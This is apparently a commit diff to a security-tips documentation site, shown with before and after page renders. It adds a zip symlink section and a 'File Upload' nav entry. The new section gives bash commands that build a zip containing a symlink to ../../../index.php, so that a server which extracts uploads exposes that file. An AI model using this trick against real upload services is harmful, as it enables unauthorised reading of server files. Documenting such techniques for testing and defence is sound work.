

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/zip.md, in a window 1280 px wide. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add file upload tips

````diff
--- a/docs/zip.md
+++ b/docs/zip.md
@@ -2,6 +2,7 @@ ZIP
 ===
 
 ## Exploit Path Traversal on decompress
+
 Some programs do not check the zip path while extracting the archive.
 Then it's possible to exploit this to extract a file to a custom location.
 
@@ -16,3 +17,14 @@ def zip(dst):
 if __name__ == '__main__':
     zip('test')
 ```
+
+
+## Symlink
+
+Upload a link containing a symlink to an other file to access the remote file
+after the decompression:
+
+```bash
+ln -s ../../../index.php test.txt
+zip --symlinks test.zip test.txt
+```
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -30,6 +30,7 @@ nav:
     - API: API.md
     - OAuth: oauth.md
     - 'Path Traversal': path-traversal.md
+    - 'File Upload': file-upload.md
     - JWT: jwt.md
     - IIS: iis.md
     - Nginx: nginx.md
````
Also changed, not shown: docs/cve/CVE-2016-3714.md (+1 -1 lines), docs/file-upload.md (added, +97 -0 lines), docs/iis.md (+3 -0 lines).
